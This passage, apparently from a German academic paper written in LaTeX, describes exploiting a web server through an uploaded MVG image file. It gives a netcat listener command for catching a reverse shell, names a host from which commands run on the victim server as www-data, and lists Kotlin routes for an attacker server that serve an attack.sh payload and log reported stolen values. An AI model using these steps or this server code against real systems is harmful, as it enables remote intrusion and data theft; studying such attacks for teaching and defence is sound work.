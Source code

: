 An dieser Stelle kann auch eine Verbindung zu einer Reverse Shell aufgebaut werden.
Dafür kann sogar direkt der Bash-Befehl verwendet werden, welcher immer vorinstalliert ist~\cite{NetcatHacking}. \\

Damit dies funktioniert, muss vorher ein Netcat-Listener auf dem angegebenen Host und Port erstellt werden,
was über folgenden Befehl möglich ist:

\begin{lstlisting}[language=Bash, caption=Netcat Listener erstellen, label={lst:setupnetcatlistener}]
nc -lvp 1111
\end{lstlisting}
\vspace{5mm}

Nach dem Upload der generischen MVG-Datei können
vom vh05.maax.gr-Host aus interaktiv Befehle auf dem Opfer-Server im Namen des www-data-Users abgesetzt werden.

\clearpage


\begin{lstlisting}[language=Kotlin, caption=GET /attack Route,label={lst:attackroute}]
get("/attack") {
    var attackSH = getResourceContent("static/attack.sh")
    attackSH = attackSH.replace("\r\n", "\n")
            .replace("\r", "\n")
    call.respondText(attackSH)
}
\end{lstlisting}
\vspace{5mm}

Die GET-Route holt sich den Inhalt der attack.sh Datei und gibt diesen an den Aufrufer als Response zurück.
Wir gehen in unserem Beispiel davon aus, dass das Opfer die Website auf einem Linux Server betreibt.
Linux nutzt das Line-Ending "`\textbackslash n"'.
Wird der Angreifer-Server auf einem Windows-PC ausgeführt, müssen die Windows-Zeilenumbrüche noch ersetzt werden, damit der Inhalt vom Linux-Server interpretiert werden kann.


\begin{lstlisting}[language=Kotlin, caption=POST /report Route,label={lst:portreport}]
post("/report") {
    val parameters = call.receiveParameters()
    println("${parameters["key"]} => ${parameters["value"]}")

    call.respondText("OK")
}
\end{lstlisting}
\vspace{5mm}

